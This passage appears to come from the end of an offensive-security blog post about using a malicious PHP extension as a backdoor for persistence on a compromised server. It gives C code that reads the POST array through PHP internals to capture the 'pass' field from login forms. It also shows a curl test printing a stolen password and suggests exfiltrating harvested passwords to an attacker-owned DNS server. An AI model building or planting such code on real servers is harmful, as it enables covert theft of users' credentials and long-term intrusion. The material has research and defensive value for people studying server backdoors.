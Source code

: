 ```c
...
zval_ptr_dtor_nogc(&PG(http_globals)[TRACK_VARS_POST]);
ZVAL_COPY_VALUE(&PG(http_globals)[TRACK_VARS_POST], &array);
...
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
So the variables are taken as an array from http_globals. The easiest way to search for a particular value (for example we want to exfiltrate the "pass" parameter sent in a login form) is to fetch a HashTable from the array and then use the API to search as we did before to search for the md5 function. Our magic function to do this is [HASH_OF](https://phpinternals.net/docs/hash_of):

```c
	zval *password;
	zval *post_arr;
	HashTable *post_hash;
	post_arr = &PG(http_globals)[TRACK_VARS_POST]; //Array
	post_hash = HASH_OF(post_arr);

	password = zend_hash_str_find(post_hash, "pass", strlen("pass"));
	if (password != 0) {
		php_printf("Password: %s", Z_STRVAL_P(password));
	}

```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
If we test it:

```
mothra@arcadia:~/php-7.2.8/ext/Allocer| 
⇒  curl localhost:8888/k.php --data "pass=s0S3cur3"
Password: s0S3cur3
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Now this password can be saved inside a file or just sent to us via DNS to an authoritative DNS server owned by us.

## 0x05 Final words
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
PHP extensions is a powerful way to keep a persistence inside a compromised target, and of course, is the best excuse to start playing with PHP internals.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
If you find useful this article, or wanna point me to an error or a typo, feel free to contact me at twitter [@TheXC3LL](https://twitter.com/thexc3ll).

